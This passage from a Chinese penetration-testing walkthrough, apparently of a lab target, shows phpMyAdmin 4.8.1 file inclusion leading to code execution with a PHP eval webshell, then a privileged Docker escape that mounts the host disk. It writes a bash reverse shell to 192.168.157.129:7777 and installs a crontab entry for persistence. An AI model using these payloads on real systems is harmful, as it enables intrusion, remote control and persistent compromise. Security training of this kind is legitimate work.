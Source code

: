 ```python
    exit()

while 1:
    command_in = raw_input("Shell >>> ")
    if command_in == "exit" : exit(0)
    do_post(command_in)
```
![](https://img-blog.csdnimg.cn/232e055624cb4f9ea9c8ad431c73f220.png)
这里写入冰蝎shell并且连接
![](https://img-blog.csdnimg.cn/d08576c38a0d4dd486c8b37b5553a261.png)

#### phpmyadmin漏洞利用
发现可以直接登录，并且发现版本为4.8.1,
![](https://img-blog.csdnimg.cn/a0b45325a17d446989ee7d31c7684212.png)
存在文件包含漏洞，可以包含session文件获取webshell
```
?target=db_sql.php%253f/../../../../../../../../etc/passwd
```
![](https://img-blog.csdnimg.cn/762e20d53dc34e209057574ae93b4baa.png)
将文件写入到session中，`select '<?php eval($_REQUEST[0]);?>' `
![](https://img-blog.csdnimg.cn/db7a700e141a457e91ff602202ddb426.png)
最后包含我们的session即可任意命令执行，写入一句话蚁剑连接即可
![](https://img-blog.csdnimg.cn/02280f2aa6dd4c9b94c63afd785e595a.png)
### docker逃逸
首先判断一下是否在docker容器中
`ls -al /`，发现存在.dockerenv文件
![](https://img-blog.csdnimg.cn/51fa537e08d24cab93740116b5a0463c.png)
查看系统进程的cgroup信息，`cat /proc/1/cgroup`
![](https://img-blog.csdnimg.cn/408635cc2b844beabbe335e2a9d12c80.png)
发现我们在docker容器内，需要逃逸
若启动Docker容器时，使用了privileged参数，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。
```
查看磁盘文件: fdisk -l
新建目录以备挂载: mkdir /aa
将宿主机/dev/sda1目录挂载至容器内 /aa: mount /dev/sda1 /aa
即可写文件获取权限或数据
```
![](https://img-blog.csdnimg.cn/9e32b20eed5b482ca6adecb6b06443c4.png)
#### 写入计划任务
首先写入反弹shell脚本
```bash
touch /aa/tmp/test.sh
chmod +x /test/tmp/test.sh
echo "#!/bin/bash" >> /aa/tmp/test.sh
echo "/bin/bash -i >& /dev/tcp/192.168.157.129/7777 0>&1" >> /aa/tmp/test.sh
```
![](https://img-blog.csdnimg.cn/38490bee532f43d0b92bda69101c432a.png)
然后写入计划任务在最后一行(每两分钟执行一次脚本)
```bash
sed -i '$a*/2 *    * * *    root  bash /tmp/test.sh ' /aa/etc/crontab
cat /aa/etc/crontab
```
![](https://img-blog.csdnimg.cn/1e1ddc0279784657aab41bfa2a405623.png)
成功反弹shell
![](https://img-blog.csdnimg.cn/81ba99ca153d447ab1d86756f5b74385.png)
#### 修改/etc/passwd